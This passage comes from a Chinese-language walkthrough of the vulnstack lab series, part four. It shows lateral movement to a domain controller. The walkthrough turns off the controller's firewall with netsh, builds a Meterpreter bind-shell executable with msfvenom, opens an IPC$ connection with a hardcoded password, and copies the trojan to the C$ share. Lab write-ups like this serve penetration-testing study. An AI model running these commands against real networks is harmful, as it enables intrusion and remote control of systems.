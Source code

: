 

执行域控防火墙的命令，为后续的反弹msf正向连接shell做准备

```
netsh advfirewall set allprofiles state off
```

![image-20231212231720016](vulnstack靶场系列四/image-20231212231720016.png)	



执行如下命令生成MSF正向马，随后上传至PC机中

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=6666 -f exe -o bind_x64.exe
```

![image-20231212234003583](vulnstack靶场系列四/image-20231212234003583.png)



另起一个msf终端开启监听

![image-20231212223224829](vulnstack靶场系列四/image-20231212223224829.png)	



让PC机与域控建立IPC连接：`net use \\192.168.183.130\ipc$ /user:hacker Password123`

将木马上传至域控：`copy c:\\bind_x64.exe \\192.168.183.130\c$`, 后续可通过创建计划任务或者ms14-068漏洞来执行木马，后面我会使用CobaltStrike演示这一流程
